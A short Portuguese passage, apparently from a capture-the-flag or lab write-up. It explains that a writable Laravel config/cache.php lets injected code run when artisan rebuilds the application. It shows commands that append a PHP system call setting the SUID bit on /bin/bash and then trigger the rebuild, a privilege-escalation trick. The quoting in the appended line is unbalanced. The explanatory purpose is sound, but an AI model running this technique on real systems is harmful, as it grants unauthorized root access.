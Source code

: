 Aqui o artisan faz a rebuild da aplicação, se pudermos editar os arquivos em `config/cache.php`, podemos executar um comando de forma arbitrária quando o artisan refizer a build do sistema.
```sh
echo 'system("chmod +s /bin/bash);' >> config/cache.php
php /var/www/html/artisan view:cache
```